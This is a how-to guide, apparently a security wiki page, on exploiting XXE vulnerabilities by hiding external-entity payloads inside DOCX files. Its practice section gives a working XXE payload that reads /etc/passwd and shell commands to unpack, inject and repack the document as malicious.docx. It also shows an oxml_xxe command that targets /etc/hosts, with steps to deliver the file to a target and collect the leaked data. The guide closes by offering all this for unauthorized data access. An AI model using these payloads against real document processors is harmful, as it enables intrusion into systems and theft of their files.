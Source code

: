 ```yaml
---
title: 'Exploiting XXE in DOCX Files: A How-To Guide'
description: Explore methods to exploit XML External Entities in DOCX for data exfiltration.
keywords:
- XXE
- DOCX
- OpenXML
- XML External Entity
- file exfiltration
- cybersecurity
- OpenXML injection
---
```


# XXE Inside DOCX File

## Context

The purpose of this article is to demonstrate how to exploit XML External Entity (XXE) vulnerabilities by embedding malicious payloads inside DOCX (OpenXML) files. This technique can be used for information disclosure or remote file retrieval. The reader is assumed to be familiar with XML structure, OpenXML format, and the structure of DOCX files, as well as the concept of XML External Entity (XXE) attacks.

## Theory

### OpenXML and DOCX Internal Structure

DOCX files are essentially ZIP archives that contain multiple XML files following the OpenXML standard. Among these XML files, `[Content_Types].xml` and `word/document.xml` are particularly significant as they are parsed by document processors when the document is opened. This parsing process creates an opportunity for XML payloads to be executed.

When a DOCX file is opened in a document processor, the application sequentially parses its internal XML files. This parsing can potentially trigger XXE payloads if the application does not securely handle these files.

### XXE Attack Surface in DOCX Files

The vulnerability model for XXE within DOCX files relies on the XML parser of the application being vulnerable with external entity resolution enabled. An attacker can craft a DOCX that carries a malicious XML file referencing external entities. When the target opens this DOCX file, the embedded payloads are triggered.

One risk factor is the trust that applications inherently place in DOCX files. They are often considered benign, which poses a risk if the underlying XML parsing is insecure.

### Embedding XXE Payloads in DOCX

To exploit this vulnerability, attackers can inject malicious external entity definitions into XML files like `word/document.xml` or `[Content_Types].xml`. A common flaw in document processing libraries is not disabling external entity resolution by default, making such attacks feasible.

## Practice

### Manual XXE Payload Injection into DOCX

To manually inject an XXE payload into a DOCX file, follow these steps:

- **Extract the DOCX contents:**

  ```bash
  unzip target.docx -d docx_unpacked/
  ```

  Use the `unzip` command to extract the contents of the target DOCX file into a directory for modifications.

- **Inject the XXE payload:**

  Open the file `word/document.xml` in a text editor and inject the following XXE payload into a suitable location such as a text node or attribute:

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <w:document xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main">
      <w:body>
          <w:p><w:r><w:t>&xxe;</w:t></w:r></w:p>
      </w:body>
  </w:document>
  ```

  This classic XXE payload references a local file, `/etc/passwd` in this instance.

- **Repack the modified files:**

  ```bash
  zip -r malicious.docx *
  ```

  Repackage the modified XML files back into a new DOCX file using `zip`.

- **Deploy and trigger the payload:**

  Deliver the newly created `malicious.docx` file to the target. When the document is opened, the application parses the modified XML file, triggering the XXE payload and potentially leaking the contents of the referenced file.

### Automated DOCX XXE Generation with oxml_xxe

For an automated approach, you can use the `oxml_xxe` tool to generate a DOCX file with an embedded XXE payload:

- **Generate an exploited DOCX:**

  ```bash
  oxml_xxe --input template.docx --payload 'file:///etc/hosts' --output evil.docx
  ```

  The `oxml_xxe` tool automates the process of injecting a payload into a DOCX file. The above command uses `template.docx` as a base, embeds a payload targeting `/etc/hosts`, and outputs it as `evil.docx`.

- **Deploy and exploit:**

  Deliver the `evil.docx` file to the intended target. Monitor for exfiltrated data either directly or through out-of-band channels, observing any leaks of sensitive data facilitated by the XXE injection.

## Tools

- **oxml_xxe**
- **zip**
- **unzip** 

By following this guide, you can exploit XML External Entity vulnerabilities within DOCX files, leveraging them for unauthorized data access or exfiltration.